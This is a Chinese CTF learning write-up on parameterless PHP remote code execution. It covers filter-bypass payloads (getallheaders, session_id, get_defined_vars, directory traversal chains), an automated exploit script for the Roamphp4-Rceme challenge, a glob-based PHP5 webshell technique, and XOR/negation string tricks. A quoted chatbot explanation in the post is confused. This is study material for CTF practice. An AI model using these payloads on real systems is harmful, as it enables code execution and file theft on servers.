

0x01 前言
本文是在做CTF比赛的时候遇到了无参数的RCE，之前也没遇见过这种知识点，故此来学习一番。不过搜寻了许多文章，感觉都是无头无尾的有点混乱，所以我这里也是在
0x02 概述
传统意义上，如果我们有
eval($_GET['code']);即代表我们拥有了一句话木马，可以进行getshell，例如

RCE指的是远程命令执行，服务器后台可以执行eval等代码执行函数，而无参数RCE指的是传参的时候被过滤，我们只能让代码执行形如a(b(c(d())))的代码
0x03 过滤场景
<?php
if(isset($_GET['var'])){
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['var'])) {
if (!preg_match('/et|dir|na|info|dec|oct|pi|log/i', $_GET['var'])) {
eval($_GET['var']);
} else {
die("Sorry!");
}
}
else{
show_source(__FILE__);
}
?>关键代码
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['var'])) {
if (!preg_match('/et|dir|na|info|dec|oct|pi|log/i', $_GET['var'])) {
eval($_GET['var']);
}
}- 首先分析外层正则表达式
[^\W]+\((?R)?\)
`^`表示取反
`\W`代表匹配非字母、数字、下划线，等价于[^A-Za-z0-9_]
上面两点加一块，代表匹配所有字母数字下划线
`+`代表字母数字下划线匹配至少一个
`\(` `\)` 代表匹配括号本身
`(?R)`表示递归表达式本身
`(?R)?` 最后的`?`表示匹配1个或者0个表达式本身
综上：这个表达式其实就是匹配形如`a(b(c(d())));`的字符串，最终前面的字符串会被替换为';'，于是可以返回true而跳到下一个if语句。- 内层表达式
et|dir|na|info|dec|oct|pi|log
输入的字符串不能包含et、dir、na、info、dec、oct、pi、log字符串
/i表示忽略大小写，上面的黑名单字符串及时大小写也不能进行绕过
0x04 绕过方法
<?php
if(isset($_GET['var'])){
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['var'])) {
echo "successful!";
eval($_GET['var']);
}
else {
die("Sorry!");
}
}
else{
show_source(__FILE__);
}
?>4.1 getallheaders()

这里呢返回值是数字，失败返回false
以下的测试代码是：
<?php
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {
eval($_GET['code']);
}
else{
show_source(__FILE__);
}
?>apache2环境下，函数返回所有请求头信息，这个是apache的函数
<?php
var_dump(getallheaders());
?>如上图，其返回的是一些头部信息，我们可以抓包来自定义一些头部信息
取出我们自定义的头部信息
<?php
var_dump(end(getallheaders()));
?>
这样一来相当于我们将http header中的hybcx变成了我们的参数，可用其进行bypass无参数函数执行，如下图
这里又针对eval的问题做了一波探讨，这里我当初疑惑为何非要在传参的地方加上eval先执行一次，代码中不就有eval吗，为何这里需要套娃（但是传参的时候没有eval就不能成功执行phpinfo），于是询问了一波GPT，首先我们要清楚eval函数的参数必须是一个可执行的PHP代码，如果只是一个单纯的字符串时会报错无法执行的。
而这里我们如果只是传入end(getallheaders())，这两个函数的意思只是单纯的取出header头信息的最后一个元素，也就是一个数组操作，而这个，而我们的正则表达式是只会匹配：满足函数调用的参数内容，也就是需要前面是一个代码执行函数的意思，这里呢当然就是eval。emmm可能我说的不清楚，这里附上GPT回答，可能会好些：
我明白你的疑虑。在PHP中，`end(getallheaders())` 不会被认为是函数调用，因为这个表达式仅返回`getallheaders()`的结果的最后一个元素，并没有直接调用函数。因此，它不包含函数调用，而是一个数组操作。
在你的示例中，确实只传入了 `end(getallheaders())` 而没有执行，因为它不满足条件检查的要求。我之前的回答中有一些混淆，我为此道歉。你的条件检查是基于正则表达式来查找包含函数调用的字符串，所以只有包含函数调用的字符串会满足条件。
如果你传入的参数中只包含 `end(getallheaders())`，它不会被认为是函数调用，因此不会执行 `eval()` 中的代码。
总之，你的示例代码要求 `$_GET['code']` 参数中包含有效的函数调用，才会执行 `eval($_GET['code'])` 中的代码。 `end(getallheaders())` 不包含函数调用，因此不满足这个要求。回到正题，我们进一步获取RCE

- 非
apache中间件-这里借用其他师傅的图了

4.2 get_defined_vars()
<?php
var_dump(get_defined_vars());
?>可以回显的全局变量
$_GET
$_POST
$_FILES
$_COOKIE尝试RCE


如上图我们end取到最后一个元素

eval直接执行
- 如果服务器 对
$_GET$_POST$_COOKIE进行了全局过滤，可以从$_FILES下手
import requests
from io import BytesIO
payload = "system('calc.exe');".encode('hex')
files = {
payload: BytesIO('hybcx')
}
r = requests.post('http://localhost/eval.php?var=eval(hex2bin(array_rand(end(get_defined_vars()))));', files=files, allow_redirects=False)
print r.content4.3 session_id()
- php中对此函数的解释

可以获取PHPSESSID的值，而我们知道PHPSESSID允许字母和数字出现，那么我们就有了新的思路，即hex2bin
payload：
import requests
payload = "system('calc.exe');".encode('hex')
cookies = {
'PHPSESSID': payload
}
r = requests.get('http://localhost/eval.php?var=eval(hex2bin(session_id(session_start())));', cookies=cookies)
print r.content即可达成RCE和bypass的目的
4.4 getenv()
查阅php手册，有非常多的超全局变量
$GLOBALS
$_SERVER
$_GET
$_POST
$_FILES
$_COOKIE
$_SESSION
$_REQUEST
$_ENV我们可以使用$_ENV，对应函数为getenv()
虽然getenv()可获取当前环境变量，但我们怎么从一个偌大的数组中取出我们指定的值成了问题
这里可以使用方法：
效果如下：

但我们要的是数组的值，那使用如下函数
两者结合便可以展示出值
我们则可用爆破的方式获取数组中任意位置需要的值，即，可使用getenv()，并获取指定位置的恶意参数
4.5 目录操作相关
- 可以用相关函数进行目录遍历&&任意文件读取
相关函数
getcwd()当前目录

scandir()目录扫描
dirname()目录穿越，这里实际上就是返回到了上级目录

chdir()更改当前目录- 读取上一层的特定文件
这里没有复现成功，先借用其他师傅的图片了，感觉原因在于

这里感觉上述最后的复现很模糊不清楚，这里又找了几篇文章来学习
首先，我们可以利用getcwd()获取当前目录
?code=var_dump(getcwd());
string(13) "/var/www/html"那么怎么进行当前目录的目录遍历呢？
这里用scandir()即可
?code=var_dump(scandir(getcwd()));
array(3) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "index.php" }那么既然不在这一层目录，如何进行目录跳转呢？
我们用dirname()即可
?code=var_dump(scandir(dirname(getcwd())));
array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(14) "flag_phpbyp4ss" [3]=> string(4) "html" }那么怎么更改我们的当前目录呢？这里我们发现有函数可以更改当前目录
chdir ( string $directory ) : bool将 PHP 的当前目录改为 directory。
所以我们这里在
dirname(getcwd())进行如下设置即可
chdir(dirname(getcwd()))我们尝试读取/var/www/123

http://localhost/?code=readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));
即可进行文件读取
0x05 相关函数总结
1. getcwd()：取得当前工作目录，成功则返回当前工作目录，失败返回 FALSE。
2. dirname()：返回路径中的目录部分，返回 path 的父目录。 如果在 path 中没有斜线，则返回一个点（’.‘），表示当前目录。否则返回的是把 path 中结尾的 /component（最后一个斜线以及后面部分）去掉之后的字符串(也就是上级目录的文件路径)。
3. chdir()：改变目录，成功时返回 TRUE， 或者在失败时返回 FALSE。
4. scandir()：列出指定路径中的文件和目录。成功则返回包含有文件名的数组，如果失败则返回 FALSE。如果 directory 不是个目录，则返回布尔值 FALSE 并生成一条 E_WARNING 级的错误。
5. array_flip()：交换数组中的键和值，成功时返回交换后的数组，如果失败返回 NULL。
6. array_rand()：从数组中随机取出一个或多个单元，如果只取出一个(默认为1)，array_rand() 返回随机单元的键名。 否则就返回包含随机键名的数组。 完成后，就可以根据随机的键获取数组的随机值。
7. localeconv()：返回一包含本地数字及货币格式信息的数组。而数组第一项就是 .5.1 phpversion()
phpversion()返回php版本，如7.3.5floor(phpversion())返回7sqrt(floor(phpversion()))返回2.6457513110646tan(floor(sqrt(floor(phpversion()))))返回-2.1850398632615cosh(tan(floor(sqrt(floor(phpversion())))))返回4.5017381103491sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))返回45.081318677156ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))返回46chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))返回.var_dump(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))扫描当前目录next(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))返回..
floor()：舍去法取整，sqrt()：平方根，tan()：正切值，cosh()：双曲余弦，sinh()：双曲正弦，ceil()：进一法取整
5.2 crypt()
chr(ord(hebrevc(crypt(phpversion()))))`返回`.hebrevc(crypt(arg))可以随机生成一个hash值 第一个字符随机是 $(大概率) 或者 .(小概率) 然后通过ord chr只取第一个字符
crypt()：单向字符串散列，返回散列后的字符串或一个少于 13 字符的字符串，从而保证在失败时与盐值区分开来。
hebrevc()：将逻辑顺序希伯来文（logical-Hebrew）转换为视觉顺序希伯来文（visual-Hebrew），并且转换换行符，返回视觉顺序字符串。
5.3 数组操作
end() ： 将内部指针指向数组中的最后一个元素，并输出
next() ：将内部指针指向数组中的下一个元素，并输出
prev() ：将内部指针指向数组中的上一个元素，并输出
reset() ： 将内部指针指向数组中的第一个元素，并输出
each() ： 返回当前元素的键名和键值，并将内部指针向前移动5.4 目录操作
getchwd() ：函数返回当前工作目录。
scandir() ：函数返回指定目录中的文件和目录的数组。
dirname() ：函数返回路径中的目录部分。
chdir() ：函数改变当前的目录。0x06 实战操作
[极客大挑战 2020]Roamphp4-Rceme
这里在buuctf打开访问
直接先dirsearch扫一波目录，这里扫出一个swp泄露，访问/.index.php.swp访问得到，不过打开文件之后发现乱码，这里用vim还原一下，发现如下代码
vim -r index.php.swp
<?php
error_reporting(0);
session_start();
//判断是否存在code的session变量，不存在的话随机生成5位md5字符串
if(!isset($_SESSION['code'])){
$_SESSION['code'] = substr(md5(mt_rand().sha1(mt_rand)),0,5);
}
if(isset($_POST['cmd']) and isset($_POST['code'])){
//判断post传入的code是否与生成的验证码相同
if(substr(md5($_POST['code']),0,5) !== $_SESSION['code']){
die('<script>alert(\'Captcha error~\');history.back()</script>');
}
$_SESSION['code'] = substr(md5(mt_rand().sha1(mt_rand)),0,5);
$code = $_POST['cmd'];
//判断code长度以及利用正则匹配限制code传参内容，这里几乎全过滤了，但是没有过滤取反字符，这已经在提示我们了
if(strlen($code) > 70 or preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/ixm',$code)){
die('<script>alert(\'Longlone not like you~\');history.back()</script>');
//这里就是常规的无参RCE题目的正则过滤表达式
}else if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)){
@eval($code);
die();
}
}
?>我们传入的命令中不能有以下 ，
/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/，想到是无字母数字，过滤了 异或 和或，留了取反，同时我们的函数必须是无参的。
这里先上一个md5碰撞绕过验证码的脚本
import hashlib
a=input("请输入您要爆破的md5:")
for i in range(1,200000000):
x=hashlib.md5(str(i).encode(encoding='UTF-8')).hexdigest()
if (x[0:5]==a):
print(x)
print(i)
break我们先用getallheaders函数看一下当前环境变量，当然在输入的时候要进行url编码取反，这里编码推荐bp自带的
payload：
原型为: var_dump(getallheaders())
cmd=[~%89%9E%8D%A0%9B%8A%92%8F][!%FF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][!%FF]());很好我们直接尝试修改ua头，因为这里host肯定不能修改，我们可以用next函数使指针指向下一位
原型为: system(next(getallheaders()))
cmd=[~%8C%86%8C%8B%9A%92][!%FF]([~%91%9A%87%8B][!%FF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][!%FF]()));ua头输入ls /查看flag所在地
找到flag
原型为: system(next(getallheaders()))
cmd=[~%8C%86%8C%8B%9A%92][!%FF]([~%91%9A%87%8B][!%FF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][!%FF]()));ua头输入cat /flag所在地flll1114gggggg
拿到flag，麻烦的点在于每次bp抓包都要重新爆破一下验证码，不过有个佬写出了exp，可以全自动，如下
import hashlib
import re
import requests
import sys
url = 'http://01bca480-d4fd-4597-a13a-a9829e724683.node4.buuoj.cn:81/'
session = requests.session()
# 1 md5 解码
r = session.get(
url=url,
)
md5_value = re.findall(r'if:substr\(md5\(\$code\),0,5\)==(.+?)"', r.text)[0]
code = ''
def md5(s):
return hashlib.md5(s.encode()).hexdigest()
def demd5(code):#爆破md5
for i in range(1, 9999999):
if md5(str(i)).startswith(code):
print('[*]code:', i)
code = i
break
return code
code = demd5(md5_value)
# 2 发送payload
cmd = '[~%89%9E%8D%A0%9B%8A%92%8F][~%CF]([~%91%9A%87%8B][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]()));'
raw_data = f'code={code}&cmd={cmd}'
r = session.post(
url=url,
data=raw_data,
allow_redirects=False,
headers={
'Content-Type': 'application/x-www-form-urlencoded',
'User-Agent': 'tac /*', # 执行的代码
}
)
print('[*]', r.text)
# phpinfo(): [~%8F%97%8F%96%91%99%90][~%CF]();
#查看shell在第几个：
# var_dump(getallheaders())： [~%89%9E%8D%A0%9B%8A%92%8F][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]());
#返回shell
# var_dump(next(getallheaders())): [~%89%9E%8D%A0%9B%8A%92%8F][~%CF]([~%91%9A%87%8B][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]()));
#执行shell
# system(next(getallheaders())): [~%8C%86%8C%8B%9A%92][~%CF]([~%91%9A%87%8B][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]()));这里呢在跟着wp学习一下上述payload的构造原理：
上述payload中采用!%EF的原因在于下列解释
php -r "echo [1,2][0];"
返回1
把他看成一个数组，然后取下标为0的内容，由于这里不能用()，所以改成了[][0]，不过0不过滤了，改成!%FF，%FF为True，加了感叹号变成了False
测试
php -r "echo [1,2][False];"
返回1这里false代表的是0，true肯定就是代表1
故此[phpinfo][0]=[phpinfo][!%FF]代表的就是phpinfo，而%FF肯定不是0，但在!之下就是0了，而这里用数组去表示原因在于，题目给的第二个正则过滤了括号
这里我又对第一个正则产生了疑问，他不是会检测传入内容是否包含数字字母吗，但我传入的虽然是编码的，但显然有数字，之后测试了一番发现，如果传入类似上述payload（经过url编码的）不论是get还是post传参，都会经过url解码，而最终出现的都是不可见字符，因此完全不会被正则所匹配到。
但至于上述的~%CF或者是~%EF我还是不理解是什么意思，wp给出的解释是：
加这个[~%CF]只是因为php7的解析方式，当然换成其他的也可以例如[~%EF]我尝试解码发现也是一些特殊字符，不过还是没有理解在此的含义，我感觉还是!%FF好理解，不过这里就先记录吧，希望日后可以有所解惑
好过了几分钟我又来了，多亏我不懈的思考终于有所解惑，这里我一直使用的hackbar进行的传参，发现总是不成功，但如果使用明文字符phpinfo就可以，接着我突然想到用bp试试
如上图，竟然成功了，接着看到刚抓包的时候发现如下图

我们cmd的内容被url编码了，而我们又是post传参，服务器是不会自动去解码的（也就是两次解码）故此我们需要bp传上去，接着我尝试换成get传参（用hackbar）
如上图成功了，这验证了我们之前的想法。nice！！！
无参RCE构造思想：
p神是根据如下代码进行的思考：
<?php
if(isset($_GET['code'])){
$code = $_GET['code'];
if(strlen($code)>35){
die("Long.");
}
if(preg_match("/[A-Za-z0-9_$]+/",$code)){
die("NO.");
}
eval($code);
}else{
highlight_file(__FILE__);
}PHP7下
php7中修改了表达式执行的顺序：http://php.net/manual/zh/migration70.incompatible.php ：

PHP7前是不允许用($a)();这样的方法来执行动态函数的，但PHP7中增加了对此的支持。所以，我们可以通过('phpinfo')();来执行函数，第一个括号中可以是任意PHP表达式。
所以很简单了，构造一个可以生成phpinfo这个字符串的PHP表达式即可。payload如下（不可见字符用url编码表示）：
(~%8F%97%8F%96%91%99%90)();
PHP5下-p神的顶尖思路（注重p神的思考方式）
好吧，这里我跟着p神是能看懂，但这里就不复现了，我直接不要脸了（bushi借用p神图片
首先p神对PHP5的getshell进行了思考：
我们使用docker run --rm -p 9090:80 -v pwd:/var/www/html php:5.6-apach来运行一个php5.6的web环境。
此时，我们尝试用PHP7的payload，将会得到一个错误：
原因就是php5并不支持这种表达方式。
p神思考：
在我在知识星球里发出帖子的时候，其实还没想到如何用PHP5解决问题，但我有自信解决它，所以先发了这个小挑战。后来关上电脑仔细想想，发现当思路禁锢在一个点的时候，你将会钻进牛角尖；当你用大局观来看待问题，问题就迎刃而解。
当然，我觉得我的方法应该不是唯一的，不过一直没人出来公布答案，我就先抛钻引玉了。
大部分语言都不会是单纯的逻辑语言，一门全功能的语言必然需要和操作系统进行交互。操作系统里包含的最重要的两个功能就是“shell（系统命令）”和“文件系统”，很多木马与远控其实也只实现了这两个功能。
PHP自然也能够和操作系统进行交互，“反引号”就是PHP中最简单的执行shell的方法。那么，在使用PHP无法解决问题的情况下，为何不考虑用“反引号”+“shell”的方式来getshell呢？于是他想到了php+shell打破禁锢
因为反引号不属于“字母”、“数字”，所以我们可以执行系统命令，但问题来了：如何利用无字母、数字、$的系统命令来getshell？
好像问题又回到了原点：无字母、数字、$，在shell中仍然是一个难题。
此时我想到了两个有趣的Linux shell知识点：
- shell下可以利用
.来执行任意脚本 - Linux文件名支持用glob通配符代替
第一点曾在《 小密圈里的那些奇技淫巧 》露出过一角，但我没细讲。.或者叫period，它的作用和source一样，就是用当前的shell执行一个文件中的命令。比如，当前运行的shell是bash，则. file的意思就是用bash执行file文件中的命令。
用. file执行文件，是不需要file有x权限的。那么，如果目标服务器上有一个我们可控的文件，那不就可以利用.来执行它了吗？
这个文件也很好得到，我们可以发送一个上传文件的POST包，此时PHP会将我们上传的文件保存在临时文件夹下，默认的文件名是/tmp/phpXXXXXX，文件名最后6个字符是随机的大小写字母。
第二个难题接踵而至，执行. /tmp/phpXXXXXX，也是有字母的。此时就可以用到Linux下的glob通配符：
*可以代替0个及以上任意字符?可以代表1个任意字符
那么，/tmp/phpXXXXXX就可以表示为/*/?????????或/???/?????????。
但我们尝试执行. /???/?????????，却得到如下错误：
这是因为，能够匹配上/???/?????????这个通配符的文件有很多，我们可以列出来：

可见，我们要执行的/tmp/phpcjggLC排在倒数第二位。然而，在执行第一个匹配上的文件（即/bin/run-parts）的时候就已经出现了错误，导致整个流程停止，根本不会执行到我们上传的文件。
思路又陷入了僵局，虽然方向没错。
于是p神又开始深入理解glob通配符（翻阅linux文档）
大部分同学对于通配符，可能知道的都只有*和?。但实际上，阅读Linux的文档（ http://man7.org/linux/man-pages/man7/glob.7.html ），可以学到更多有趣的知识点。
其中，glob支持用[^x]的方法来构造“这个位置不是字符x”。那么，我们用这个姿势干掉/bin/run-parts：

排除了第4个字符是-的文件，同样我们可以排除包含.的文件：

现在就剩最后三个文件了。但我们要执行的文件仍然排在最后，但我发现这三个文件名中都不包含特殊字符，那么这个方法似乎行不通了。
继续阅读glob的帮助，我发现另一个有趣的用法：就跟正则表达式类似，glob支持利用[0-9]来表示一个范围。
我们再来看看之前列出可能干扰我们的文件：

所有文件名都是小写，只有PHP生成的临时文件包含大写字母。那么答案就呼之欲出了，我们只要找到一个可以表示“大写字母”的glob通配符，就能精准找到我们要执行的文件。
翻开ascii码表，可见大写字母位于@与[之间：

那么，我们可以利用[@-[]来表示大写字母：
当然，php生成临时文件名是随机的，最后一个字符不一定是大写字母，不过多尝试几次也就行了。
最后，我传入的code为?><?=. /???/???[@-[];?>，发送数据包如下：

成功执行任意命令。
0x07 %FF以及XOR的思考
这里对于上述payload的构造仍有诸多疑问，故此搜了许多文章在此学习一波。
7.1 PHP异或流程
在PHP中，两个变量的值进行异或时，会先将两个变量的值转换为ASCII，再将ASCII转换为二进制，对两对二进制数据进行异或，异或完，再将结果转为ASCII，最后将ASCII转为字符串，即为最终结果。
7.2 异或运算法则
0&0=0；1&1=0；0&1=1；1&0=1
两个二进制数相同时，异或为0，不同为1
例：php中的字符串A和字符串?
<?php
echo "A"^"?";
//输出：~
/*
(1)
A的ASCII值：65
?的ASCII值：77
(2)
65转为二进制：1000001
90转为二进制：0111111
(3)
二进制异或结果：1111110
二进制转为ASCII:126
ASCII转为字符串：~
*/
?>利用异或制作php执行代码：
<?php
echo ("<"^"a")."<br/>";
echo ("?"^"d")."<br/>";
echo ("p"^"1")."<br/>";
echo ("h"^"1")."<br/>";
echo ("p"^"1")."<br/>";
echo (" "^"a")."<br/>";
echo ("s"^"1")."<br/>";
echo ("y"^"1")."<br/>";
echo ("s"^"2")."<br/>";
echo ("t"^"1")."<br/>";
echo ("e"^"1")."<br/>";
echo ("m"^"6")."<br/>";
echo ("("^"a")."<br/>";
echo ("'"^"a")."<br/>";
echo ("l"^"1")."<br/>";
echo ("s"^"1")."<br/>";
echo ("'"^"a")."<br/>";
echo (")"^"a")."<br/>";
echo (";"^"a")."<br/>";
echo ("?"^"b")."<br/>";
echo (">"^"c")."<br/>";
echo "<br/>";
echo ("]"^"a")."<br/>";
echo ("["^"d")."<br/>";
echo ("A"^"1")."<br/>";
echo ("Y"^"1")."<br/>";
echo ("A"^"1")."<br/>";
echo ("A"^"a")."<br/>";
echo ("B"^"1")."<br/>";
echo ("H"^"1")."<br/>";
echo ("A"^"2")."<br/>";
echo ("E"^"1")."<br/>";
echo ("T"^"1")."<br/>";
echo ("["^"6")."<br/>";
echo ("I"^"a")."<br/>";
echo ("F"^"a")."<br/>";
echo ("]"^"1")."<br/>";
echo ("B"^"1")."<br/>";
echo ("F"^"a")."<br/>";
echo ("H"^"a")."<br/>";
echo ("Z"^"a")."<br/>";
echo ("]"^"b")."<br/>";
echo ("]"^"c")."<br/>";
/*输出
]
[
A
Y
A
A
B
H
A
E
T
[
I
F
]
B
F
H
Z
]
]
<
?
p
h
p
s
y
s
t
e
m
(
'
l
s
'
)
;
?
>
*/
echo ("AYAABHAET[IF]BFHZ]]"^"ad111a112116aa11aaabc");
//没有输出，因为<?php system('ls');?>是代码，已经执行了，但var_dump()会显示有21个字符，或者两边都删除前两位，即可看到值
?>制作时，^左边为我们想要的php字符，右边可设置1~9/a-z/A-Z，只要得到异或出来的值即可，之后将得到的值替换原来^左边的值，再次异或，即为你想要的php字符。如上面的"<“^“a”，异或后的值为]，再将原来的<替换为]，”]"^"a"的结果为<，所以我们绕过时，可以使用异或来得到我们想要的值
打CTF时，若遇到白名单过滤，但没有过滤^，可以使用该方法绕过，例如：http://x.x.x.x/?page=php://input，如果目标过滤:和/时这时，就可以使用http://x.x.x.x/?page=php"[NN"^"aaa"input，这里使用"[NN"^"aaa"异或后的值即表示被过滤的://，但需要注意的是，目标不能同时都过滤单双引号
但我们可以拼凑使得异或两边的都是英文字母，这样就不需要加单或双引号例：
echo (@AAA^@qwe);
//输出06$到时候就可以也绕过单双引号，payload类似http://x.x.x.x/?page=@xx^@xx这样就可以了–不过这个操作没看懂（留着看日后能否碰撞出火花吧）
7.3 %FF的作用
这里先跟着佬的思路走一遍，payload：
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
//${_GET}{%ff}();&%ff=phpinfo看如上构造，我们接下来学习一波构造原理，这里先 上一下师傅的图片

能够接收，毕竟异或就是用不可见字符相异或表示出我们想要的字符串么，
然后为了传输，就进行一下url编码，便于传输和识别，
这里用到的关键符号就是^,用到的方法是利用不可见字符的异或来构造_GET对函数进行调用，首先是获取_GET的ascii码值
然后使用0xff分别对这几个字符进行异或操作
这里可能就会有疑问，为何必须用0xff来进行操作 ，而其他不行呢。
这里起先我也不清楚（不会思考罢了），之后看到评论区有一则回答很正解：
之所以用%ff是因为他用二进制表示为11111111。
我们知道0^1=1,1^1=1，这也就意味着我们不论传入何种字符，其转换为二进制后的数字与是上述0xff的二进制进行按位异或，最后得到的结果（也就是二进制数）一定是与原来不相同的，这时我们用得到的结果再次与0xff进行异或，得到的结果就一定是最初的字符，也就是说：
"A"^"0XFF"="其他",随后, "其他"^"0xff"="A"得到了字符串0xa0b8baab（均为不可见字符），将其与0xffffffff进行异或操作，就变成了_GET了，所以payload为：
?_=${%ffffffff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfourl编码也是16进制的，所以0xff与%ff是同一个意思
这里上一下师傅对此的解释：
因为url也是16进制编码的，而且a^b^b = a所以下面的这个%a0%b8%ba%ab就是0xa0xb80xba0xab,连在一起就是0xa0b8baab。16进制的a0 b8 ba ab对应的就是10进制的95 71 69 84和0xff相^出来的，， 然后，，95 71 69 84对应的也就是_ G E T
也就是_GET每个字母都和0xff或者叫%ff或者叫255相异或，变成0xa0xb80xba0xab。进行bypass。然后，再次与%ff进行异或，就变成了_GET。就达成目的了，总结：
如果我们想得到某个字符（但该字符被过滤了），那我们先令该字符与0xff进行异或，得到中间值之后，让中间值再次与0xff异或，便可以得到我们想要的某个字符
0x08 参考文章
php无参数相关
无字母数字webshell之提高篇–p神!!!
无参RCE–递增绕过可参考，日后遇到在学习
php异或相关
【芝士】%ff%ff%ff%ff%ff%ff%ff || 0xff0xff0xff0xff0xff0xff0xff 异或，~ 取反过rce 自己应该是弄明白了，